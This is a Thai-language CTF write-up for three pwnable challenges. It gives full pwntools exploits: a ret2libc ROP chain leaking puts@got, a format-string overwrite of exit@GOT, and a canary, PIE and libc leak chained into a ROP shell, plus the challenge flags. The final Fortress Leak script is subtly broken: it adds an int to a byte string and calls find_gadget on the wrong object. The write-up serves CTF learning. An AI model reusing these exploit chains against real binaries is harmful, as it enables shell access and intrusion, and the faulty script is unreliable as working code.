การแข่งขัน SECPlayground Cybersplash CTF 2026 ในวันที่ 11 เมษายน ที่ผ่านมา 34 challenges in 6 categories

เอาละครั้งนี้ผมมาแปลกหน่อย ถ้าสังเกตคงเห็นผมเขียน writeup น้อยลง ส่วนใหญ่ก็มาจากคนในทีมผมที่ solve ได้เยอะขึ้นและพลังของ llm ในปัจจุบันด้วย เอาละสำหรับ writeup นี้ผมมาแค่หมวด pwnable เพราะหมวดอื่นคนในทีมผมเอาไปกินหมดละ ถึงข้อสุดท้ายในหมวดนี้ผมจะไม่ทันเพื่อนผมก็เถอะ

- [@noonomyen](https://github.com/noonomyen)
- [@c0ffeeOverdose](https://github.com/c0ffeeOverdose)
- [@boom51zx](https://github.com/boom51zx)

สำหรับงานนี้เรามากันสามคน เนื่องจากเพื่อนผมใน section คนนี้ที่สนใจด้านนี้ดูเหมือนจะกระตือรือร้นมากขึ้น

- ROPChain Relay
- Echo Chamber
- Fortress Leak
- Overflow Gateway
<!-- - Heap Architect -->

---

# Challenges

## ROPChain Relay

*A network packet forwarder service is running on a remote server. It accepts a single "payload" packet and forwards it. However, the forwarding logic has a critical buffer management flaw. The binary has NX enabled, so you can't just inject shell code - you'll need to think in chains.*



และได้ glibc มาด้วย

```txt
GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.13) stable release version 2.35.
```

ซึ่งมันรันในเครื่องผมไม่ได้ ผมเลยต้องไป build glibc เพื่อใช้ linker



it's ok







ชื่อ chall มันก็บอกอยู่แล้วฮะว่าต้องทำ ROP chain

อย่างแรกเรามี gadget free ที่ chall ให้มาใน `gadgets` function และ `vulnerable` ที่มี buffer overflow

แล้วไงต่อ?

ROP Chain ท่าทั่วไปคือ ret2libc เพื่อให้ได้ shell

จากที่เห็นเราจำเป็นจะต้องรู้ libc base ก่อน ซึ่งมักจะได้จากการ leak มาจากอะไรสักอย่าง ซึ่งในเคสนี้เราจะ `puts` เอา `got` ของ `puts` ออกมากัน

- **GOT** (Global Offset Table) เก็บ address จริงของ function (หลัง resolve แล้ว)
- **PLT** (Procedure Linkage Table) เป็น stub code ที่เอาไว้เรียก function ผ่าน GOT

ในเคสนี้ GOT จะเก็บที่อยู่จริงของ libc function เราเลยให้ puts แสดง `puts@got` แล้วหา offset ระหว่าง function นี้กลับไปที่ base address

ทำไมต้องเป็น `puts@got`? เพราะ linker จะ resolve แค่ที่ bin เราใช้ ซึ่งในเคสนี้เรามีการใช้ `puts` อยู่แล้วใน bin ของเรา

สรุปเราเลยต้องทำ chain นี้ 2 รอบ รอบแรกทำการ leak libc รอบที่สองทำการ jump ไปที่ `system` กัน

```sh
$ strings -a -t x libc.so.6 | grep "/bin/sh"
1d8678 /bin/sh
```

โดยเราจะใช้ string ที่มีอยู่ใน libc อยู่แล้วเป็น 1st args ให้ `system`

เริ่มจาก buffer overflow จาก array 64 bytes และ read 256 bytes คิดตรงๆก็คือ padding 64 + 8

```py
from pwn import *

context.binary = elf = ELF("./vuln", checksec=True)
libc = ELF("./libc.so.6", checksec=True)
context.arch = "amd64"

p = process(["/opt/glibc-2.35/lib/ld-linux-x86-64.so.2", "--library-path", ".", "./vuln"])

offset = 64 + 8
rop = ROP(elf)

stage1 = flat(
    b"A" * offset,                          # padding
    rop.find_gadget(["pop rdi", "ret"])[0], # return ไป gadget เพื่อ pop ค่าไปใส่ rdi
    elf.got["puts"],                        # &puts@got จะถูก pop เข้า rdi
    elf.plt["puts"],                        # return ไป puts@plt call puts(puts@got)
    elf.symbols["vulnerable"]               # function ที่จะกลับ (วนกลับมารอบสอง)
)

p.send(stage1)

# ---

for i in p.recvall(1).split(b"\n"): print(i)
```



```py
puts_leak = u64(p.recvn(6).ljust(8, b"\x00"))
libc.address = puts_leak - libc.sym["puts"] # set libc address (หาก libc.address ยังไม่ได้กำหนด libc.sym จะส่งกลับ offset จาก base)

log.info(f"puts leak: {hex(puts_leak)}")
log.info(f"libc base: {hex(libc.address)}")

stage2 = flat(
    b"A" * offset,                          # padding
    rop.find_gadget(["ret"])[0],            # ขยับ rsp + 8 เพื่อ align stack ก่อนเข้า system
    rop.find_gadget(["pop rdi", "ret"])[0], # pop ค่า address ของ "/bin/sh" เข้า rdi
    next(libc.search(b"/bin/sh\x00")),      # address ของ string "/bin/sh" ใน libc
    libc.sym["system"]                      # ret ไป system("/bin/sh")
)

p.send(stage2)
p.interactive()
```



Flag `pwn{5R8NLcQGuM}`

## Echo Chamber

*A new secure messaging relay has been deployed. It claims to simply echo back your messages, but the developers made a critical mistake in how they handle user input. There's a hidden function in the binary that was supposed to be removed before deployment. Can you exploit the messaging system to trigger it?*



มี source code มาให้



เอาละเราต้องทำ something กับ string format ซึ่งก็คือการใช้ `%n` นั้นเอง

```c
int count;
printf("Hello%n world\n", &count);
// 'count' will now be 5 because "Hello" has 5 characters.
printf("count = %d\n", count);

// Hello world
// count = 5
```

โดยเราจะใช้ `exit` เป็นตัว call ไปที่ `win` โดยการแก้ address มัน ซึ่ง `exit` เป็นสิ่งที่ต้อง call ก่อนออกจาก program แน่นอน และ `RELRO: Partial RELRO` ก็ทำให้สามารถเขียน `GOT` ได้ด้วย

เริ่มจากหา offset ที่ input ของเราไปอยู่ argument ลำดับไหน

เพื่อความง่าย pwntool มีให้หมดแล้วฮะ เริ่มจากใช้ `FmtStr` หา offset

```py
from pwn import *

context.binary = elf = ELF("./vuln")

def exec_fmt(payload):
    p = process(["/opt/glibc-2.35/lib/ld-linux-x86-64.so.2", "--library-path", ".", "./vuln"])
    p.sendlineafter(b"[*] Enter your message:\n", payload)
    out = p.recvall(timeout=1)
    p.close()
    return out

# ---

autofmt = FmtStr(exec_fmt)

print("offset =", autofmt.offset)
print("padlen =", autofmt.padlen)
```



ได้ offset = 6 เสร็จแล้วก็ craft payload ด้วย `fmtstr_payload` ซึ่งมันจะใช้เทคนิคที่เราพูดไปในการสร้าง payload ที่เขียนค่าลงใน address ที่เรากำหนดได้ง่ายๆ

```py
offset = 6

# b'%22c%11$lln%42c%12$hhn%210c%13$hhnaaaabaP@@\x00\x00\x00\x00\x00R@@\x00\x00\x00\x00\x00Q@@\x00\x00\x00\x00\x00'

output = exec_fmt(fmtstr_payload(offset, { elf.got["exit"]: elf.sym["win"] }))
output = output.split(b"\n")[:10]
print(output)
```



Flag `pwn{rLOzptCARw}`

## Fortress Leak

*A "Secure Message Vault" has been deployed with every protection the developers could find - PIE, stack canaries, NX, and Full RELRO. They're confident it's impenetrable. but every fortress has a weakness. Can you chain together multiple vulnerabilities to break through all the defenses?*



```c
// Helper for ROP gadgets (gcc 11+ doesn't generate __libc_csu_init)
void __attribute__((used)) gadgets(void) {
    __asm__ volatile (
        "pop %rdi; ret\n"
    );
}

void vault(void) {
    char msg[128];
    int choice;

    puts("\n=== Secure Message Vault ===");

    while (1) {
        menu();
        if (scanf("%d", &choice) != 1) {
            while (getchar() != '\n');
            continue;
        }
        getchar();

        switch (choice) {
            case 1: {
                // Store message — safe read
                printf("Enter message: ");
                memset(msg, 0, sizeof(msg));
                read(0, msg, 127);
                puts("[+] Message stored.");
                break;
            }
            case 2: {
                // Preview message — FORMAT STRING vulnerability
                // Bug: uses printf(msg) instead of printf("%s", msg)
                // Player can use %p to leak canary, PIE addresses, libc addresses
                if (msg[0] == '\0') {
                    puts("[-] No message stored.");
                    break;
                }
                puts("[*] Preview:");
                printf(msg);
                puts("");
                break;
            }
            case 3: {
                // Send message — BUFFER OVERFLOW
                // Reads up to 512 bytes into 128-byte buffer
                puts("[*] Preparing to send...");
                printf("Enter final message: ");
                read(0, msg, 512);
                puts("[+] Message sent!");
                return;
            }
            case 4:
                puts("[*] Goodbye.");
                exit(0);
            default:
                puts("[-] Invalid option.");
                break;
        }
    }
}
```

เปิด security เยอะจัด เอาละมาดูกัน ใน chall นี้มี source code มาให้ ซึ่งผมก็ไม่แน่ใจว่าทำไมจะ comment บอกทางดีขนาดนั้น...

- gadget เป็น `pop rdi ; ret` แน่นอน เอาไว้ทำ ROP comment เขาก็บอกอะ
- case 2 มี printf(msg)
- case 3 buffer overflow (buf 128 read 512)

สรุปก็คือเป็น program เก็บ message และก็ print และก็ read แล้วออกไปไหนก่อน !!!

เอาละ helper gadget เราก็บอกอยู่แล้วว่าเป็น ROP งั้นเรามาคิดกันว่าเราจะทำยังไง

ret2shell แหละ แน่นอนปลายทาง `system("/bin/sh")`

เราต้องใช้อะไรบ้าง?

- leak PIE สำหรับใช้หา gadget address
- leak canary สำหรับทำ stack overflow
- leak libc สำหรับหา base address เพื่อคำนวณ `system` address และ `/bin/sh` ต่อ

เหงื่อตกแปป เริ่มจากหา leak

```py
from pwn import *

context.binary = elf = ELF("./vuln")
libc = ELF("./libc.so.6")

p = process(["/opt/glibc-2.35/lib/ld-linux-x86-64.so.2", "--library-path", ".", "./vuln"])

p.recvuntil(b"> ")
p.sendline(b"1")
p.sendline(b".".join([f"%{i}p".encode() for i in range(2, 29)])) # 126 bytes
p.sendline(b"2")
p.recvuntil(b"[*] Preview:\n")
leaks = [int(p, 16) if p.startswith(b"0x") else 0 for p in p.recvuntil(b"\n\n\n").replace(b" ", b"").strip().split(b".")]

for k, v in enumerate(leaks, 2):
    print(f"[{k}] => {hex(v)}")
```



เพื่อ confirm args ไหนเป็น canary เราก็จะ break มันตอนที่ canary อยู่ใน register (เอาจริงๆเดาเอาก็ได้ครับ ลงท้าย `00`)



คำนวน break point `0x7f72d3763000 + (0x00101510 - 0x00100000) = 0x7f72d3764510` (start + (offset - image base))



เราได้ leak canary แล้ว ก็คือ `%25$p` และถัดไป saved RBP ที่ 26 และ return address ที่เป็น PIE ที่ `%27$p`





ซึ่ง return นี้จะกลับมาที่ `main` ซึ่งเราจะคำนวน offset ไป PIE base ได้ `0x7f72d37645b3 - (0x001015b3 - 0x00100000) = 0x7f72d3763000` (return - (offset - image base)) ซึ่งก็ตรงตาม vmmap

ต่อมาเราก็จะทำการหา arbitrary read สำหรับหาอ่านค่าใน stack กัน โดยเราต้องการหา GOT ของ printf หรือ puts ก็ได้

```py
from pwn import *

context.binary = elf = ELF("./vuln", checksec=False)
libc = ELF("./libc.so.6", checksec=False)

p = process(["/opt/glibc-2.35/lib/ld-linux-x86-64.so.2", "--library-path", ".", "./vuln"])

def store(payload):
    p.sendline(b"1")
    p.sendlineafter(b"Enter message: ", payload)
    p.recvuntil(b"[+] Message stored.\n\n")

def preview():
    p.sendline(b"2")
    p.recvuntil(b"[*] Preview:\n")
    return p.recvuntil(b"\n\n\n")[:-3]

marker_a = 0x4141414142424242
marker_b = hex(marker_a).encode()

for i in range(1, 30):
    payload = f"%{i}$p".encode()
    payload = payload.ljust(16, b"A")
    payload += p64(marker_a)

    store(payload)
    leak = preview()
    if marker_b in leak:
        print(i, marker_b, leak)
```



โดยเราจะใช้ padding 16 ซึ่งค่า offset ที่ตรงตามที่ต้องการคือ 10 โดยมันจะได้ `0x4141414142424242` กลับออกมา

แล้วมันใช้ทำอะไร? เราจะใช้มัน dereference ค่า pointer และต่อมาที่ต้องการคือ address `main` return from `vault` offset



เอาละตอนนี้เรารู้

- canary index: 25
- PIE return index: 27
- arbitrary read arg: 10
- `main` return from `vault` offset: 0x15b3

แวะกลับไปหา padding ของ buffer ก่อน โดยเราจะใช้ break เดียวกับตอนหา canary โดยเราเขียน `A` เข้าไปเป็น mark แล้วก็วัดไปหา canary




ได้ 136 ก็คือ 128 + 8 นั้นเองถึงจะถึง canary ดังนั้น padding คือ 136 นั้นเอง

เราก็จะเริ่มกัน

```py
# ---

rop = ROP("./vuln")

def store(payload):
    p.sendlineafter(b"> ", b"1")
    p.sendafter(b"Enter message: ", payload)

def preview():
    p.sendlineafter(b"> ", b"2")
    p.recvuntil(b"[*] Preview:\n")
    return p.recvuntil(b"\n\n[1] Store message", drop=True)

# leak canary and pie base
store(b"%25$p.%27$p")
leak = preview().decode()
canary_s, pie_ret_s = leak.split(".")
canary = int(canary_s, 16)
pie_base = int(pie_ret_s, 16) - 0x15b3

log.info(f"canary = {canary:#x}")
log.info(f"pie_base = {pie_base:#x}")

# leak printf@got
payload = b"%10$s\x00"
payload = payload.ljust(16, b"A")
payload += p64(pie_base + elf.got["printf"])
store(payload)
printf_bytes = preview()
printf_addr = u64(printf_bytes.ljust(8, b"\x00"))

# cal libc base
libc.address = printf_addr - libc.symbols["printf"]

log.info(f"printf = {printf_addr:#x}")
log.info(f"libc_base = {libc.address:#x}")

# payload
payload = flat(
    b"A" * 128 + 8, # 136 fill buffer + (int + alignment?)
    canary,
    b"B" * 8, # saved RBP
    pie_base + payload.find_gadget(["ret"])[0],
    pie_base + payload.find_gadget(["pop rdi", "ret"])[0],
    next(libc.search(b"/bin/sh\x00")),
    libc.symbols["system"]
)

p.sendlineafter(b"> ", b"3")
p.sendafter(b"Enter final message: ", payload)
p.interactive()
```



Flag `pwn{vjQIkJtBD9}`

<!--
## Heap Architect

